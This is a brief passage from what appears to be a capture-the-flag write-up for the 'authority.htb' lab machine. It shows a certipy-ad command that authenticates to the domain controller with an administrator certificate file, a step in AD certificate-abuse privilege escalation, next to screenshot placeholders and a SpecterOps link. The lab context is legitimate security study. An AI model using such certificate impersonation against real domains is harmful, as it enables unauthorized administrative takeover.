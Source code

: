 ![](images/certificate.png)

 - let's get system boiiss!
 
```sh
certipy-ad auth \
	-pfx 'administrator.pfx' \
	-username 'administrator' \
	-domain 'authority.htb' \
	-dc-ip 10.129.12.250 \
	-debug
```
![](images/fail2.png)

https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d

![](images/okaythen.png)
